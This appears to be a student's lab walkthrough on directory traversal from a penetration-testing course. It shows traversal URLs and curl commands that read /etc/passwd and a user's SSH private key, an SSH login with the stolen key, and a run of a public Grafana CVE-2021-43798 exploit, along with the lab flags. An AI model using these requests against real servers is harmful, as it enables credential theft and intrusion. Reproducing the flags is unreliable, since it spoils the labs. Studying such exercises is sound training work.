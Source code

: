 # Identifying and Exploiting Directory Traversals

Example of a link
>``` shell
>https://example.com/cms/login.php?language=en.html
>```

Contents of /etc/hosts
>``` shell
>127.0.0.1       localhost
>127.0.1.1       kali
>192.168.50.16   mountaindesserts.com
>...
>```

Entire URL of our Directory Traversal attack (1)
>``` shell
>http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
>```

Entire URL of our Directory Traversal attack (2)
>``` shell
>http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
>```

SSH Private Key via curl
>``` shell
>kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
>
># ========== Expected Result ==========
>...
>-----BEGIN OPENSSH PRIVATE KEY-----
>b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
>NhAAAAAwEAAQAAAYEAz+pEKI1OmULVSs8ojO/sZseiv3zf2dbH6LSyYuj3AHkcxIND7UTw
>XdUTtUeeJhbTC0h5S2TWFJ3OGB0zjCqsEI16ZHsaKI9k2CfNmpl0siekm9aQGxASpTiYOs
>KCZOFoPU6kBkKyEhfjB82Ea1VoAvx4J4z7sNx1+wydQ/Kf7dawd95QjBuqLH9kQIEjkOGf
>BemTOAyCdTBxzUhDz1siP9uyofquA5vhmMXWyy68pLKXpiQqTF+foGQGG90MBXS5hwskYg
>...
>lpWPWFQro9wzJ/uJsw/lepsqjrg2UvtrkAAADBAN5b6pbAdNmsQYmOIh8XALkNHwSusaK8
>bM225OyFIxS+BLieT7iByDK4HwBmdExod29fFPwG/6mXUL2Dcjb6zKJl7AGiyqm5+0Ju5e
>hDmrXeGZGg/5unGXiNtsoTJIfVjhM55Q7OUQ9NSklONUOgaTa6dyUYGqaynvUVJ/XxpBrb
>iRdp0z8X8E5NZxhHnarkQE2ZHyVTSf89NudDoXiWQXcadkyrIXxLofHPrQzPck2HvWhZVA
>+2iMijw3FvY/Fp4QAAAA1vZmZzZWNAb2Zmc2VjAQIDBA==
>-----END OPENSSH PRIVATE KEY-----
>...
># =====================================
>```

Using the Private Key to connect via SSH
>``` shell
>kali@kali:~$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
>
># ========== Expected Result ==========
>The authenticity of host '[mountaindesserts.com]:2222 ([192.168.50.16]:2222)' can't be established.
>Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
>...
>@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
>@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
>@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
>Permissions 0644 for '/home/kali/dt_key' are too open.
>It is required that your private key files are NOT accessible by others.
>This private key will be ignored.
>...
># =====================================
>
>kali@kali:~$ chmod 400 dt_key
>
>kali@kali:~$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
>
># ========== Expected Result ==========
>...
>offsec@68b68f3eb343:~$ 
># =====================================
>```

Lab 1 - Follow the steps above and leverage the directory traversal vulnerability in the "Mountain Desserts" web application on VM #1. Use curl or Burp to obtain the SSH private key for the user offsec. Use it to connect via SSH on port 2222 and find the flag in the SSH banner, which is displayed after you log in.
>``` shell
># Map Hostname to IP
>kali@kali:~$ sudo nano /etc/hosts
>
># Add this line at the bottom:
>192.168.179.16 mountaindesserts.com
>
># Save and exit:
>Ctrl + X
>
># Find a users' SSH private key and copy it beginning at "-----BEGIN OPENSSH PRIVATE KEY-----" and ending at "-----END OPENSSH PRIVATE KEY-----"
>kali@kali:~$ curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa
>
># ========== Expected Result ==========
><!DOCTYPE html>
><html>
>    <head>
>...
>-----BEGIN OPENSSH PRIVATE KEY-----
>b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
>NhAAAAAwEAAQAAAYEAz+pEKI1OmULVSs8ojO/sZseiv3zf2dbH6LSyYuj3AHkcxIND7UTw
>XdUTtUeeJhbTC0h5S2TWFJ3OGB0zjCqsEI16ZHsaKI9k2CfNmpl0siekm9aQGxASpTiYOs
>...
>hDmrXeGZGg/5unGXiNtsoTJIfVjhM55Q7OUQ9NSklONUOgaTa6dyUYGqaynvUVJ/XxpBrb
>iRdp0z8X8E5NZxhHnarkQE2ZHyVTSf89NudDoXiWQXcadkyrIXxLofHPrQzPck2HvWhZVA
>+2iMijw3FvY/Fp4QAAAA1vZmZzZWNAb2Zmc2VjAQIDBA==
>-----END OPENSSH PRIVATE KEY-----
># =====================================
>
># Create a file with the stolen SSH private key
>kali@kali:~$ nano dt_key
>
># Paste the SSH private key into dt_key
>
># Save and exit:
>Ctrl + X
>
># Set the correct permissions by running on the SSH key file
>kali@kali:~$ chmod 400 dt_key
>
># Connect via SSH on port 2222
>kali@kali:~$ ssh -i dt_key -p 2222 offsec@mountaindesserts.com
>
># ========== Expected Result ==========
>Linux 8a84873ebe9c 5.4.0-212-generic #232-Ubuntu SMP Sat Mar 15 15:34:35 UTC 2025 x86_64
>OS{8fca25afe0f5ce31e21c3a8ea27c6e85}
>offsec@8a84873ebe9c:~$ 
># =====================================
>```
>OS{8fca25afe0f5ce31e21c3a8ea27c6e85}

Lab 2 - The target VM #2 runs Grafana on port 3000. The service is vulnerable to CVE-2021-43798, which is a directory traversal vulnerability. Search for "golangexample cve-2021-43798" in a search engine to get familiar with how the vulnerability can be exploited. Use curl and the --path-as-is parameter to find the flag in C:\Users\install.txt.
>``` shell
># Copy raw code from https://github.com/taythebot/CVE-2021-43798/blob/main/exploit.go
>
># Create exploit.go file
>kali@kali:~$ nano exploit.go
>
># Paste the raw code
>
># Save and exit:
>Ctrl + X
>
>kali@kali:~$ go run exploit.go -target http://192.168.179.193:3000 -file /Users/install.txt
>
># ========== Expected Result ==========
>CVE-2021-43798 - Grafana 8.x Path Traversal (Pre-Auth)
>Made by Tay (https://github.com/taythebot)
>
>[INFO] Exploiting target http://192.168.179.193:3000
>[INFO] Successfully exploited target http://192.168.179.193:3000
>OS{69480c87e9c23bfd86162f8d2335e20d}
># =====================================
>```
>OS{69480c87e9c23bfd86162f8d2335e20d}
